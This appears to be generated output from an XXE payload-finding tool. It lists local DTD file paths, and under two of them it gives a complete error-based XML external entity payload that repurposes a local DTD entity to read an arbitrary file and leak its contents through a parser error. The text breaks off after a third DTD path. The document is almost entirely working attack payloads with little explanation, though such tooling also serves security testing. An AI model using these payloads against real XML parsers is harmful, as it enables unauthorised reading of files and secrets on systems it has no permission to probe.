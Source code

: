  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcreport-0.3.dtd`

**Injectable entity:** `machineinfo.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcreport-0.3.dtd">

    <!ENTITY % machineinfo.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport.dtd`

**Injectable entity:** `machineinfo.dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport.dtd">

    <!ENTITY % machineinfo.dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/perfsuite/hwpcprofilereport-0.2.dtd`
